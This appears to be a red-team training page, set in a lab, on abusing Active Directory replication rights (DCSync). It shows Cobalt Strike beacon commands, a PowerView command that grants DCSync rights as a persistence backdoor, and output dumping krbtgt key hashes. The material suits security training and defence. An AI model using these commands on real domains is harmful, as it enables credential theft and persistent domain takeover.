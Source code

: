 DCSync is a technique which replicates the MS-DRSR protocol to replicate AD information, including password hashes. Under normal circumstances, this is only ever performed by (and between) Domain Controllers. There are specific DACLs relating to DCSync called **Replicating Directory Changes [All/In Filtered Set]**, which by default is only granted to Enterprise/Domain Admins and Domain Controllers.

These are set on the root domain object. Enterprise/Domain Admins can also modify these DACLs, and can therefore grant the Replicating Directory Change rights to other principals, whether that be a user, group or computer.

```
beacon> getuid
[*] You are DEV\bfarmer

beacon> dcsync dev.cyberbotic.io DEV\krbtgt
[DC] 'dev.cyberbotic.io' will be the domain
[DC] 'dc-2.dev.cyberbotic.io' will be the DC server
[DC] 'DEV\krbtgt' will be the user account
ERROR kuhl_m_lsadump_dcsync ; GetNCChanges: 0x000020f7 (8439)
```
  

`Add-DomainObjectAcl` from PowerView can be used to add a new ACL to a domain object. If we have access to a domain admin account, we can grant dcsync rights to any principal in the domain (a user, group or even computer).

```
beacon> getuid
[*] You are DEV\nlamb

beacon> powershell Add-DomainObjectAcl -TargetIdentity "DC=dev,DC=cyberbotic,DC=io" -PrincipalIdentity bfarmer -Rights DCSync
```

  

Once the change has been made, inspect the domain object and you will see the changes that have been made.

  

![](https://rto-assets.s3.eu-west-2.amazonaws.com/domain-dominance/dcsync-backdoor.png)

  

```
beacon> getuid
[*] You are DEV\bfarmer

beacon> dcsync dev.cyberbotic.io DEV\krbtgt
[DC] 'dev.cyberbotic.io' will be the domain
[DC] 'dc-2.dev.cyberbotic.io' will be the DC server
[DC] 'DEV\krbtgt' will be the user account

[...snip...]

* Primary:Kerberos-Newer-Keys *
    Default Salt : DEV.CYBERBOTIC.IOkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 390b2fdb13cc820d73ecf2dadddd4c9d76425d4c2156b89ac551efb9d591a8aa
      aes128_hmac       (4096) : 473a92cc46d09d3f9984157f7dbc7822
      des_cbc_md5       (4096) : b9fefed6da865732
```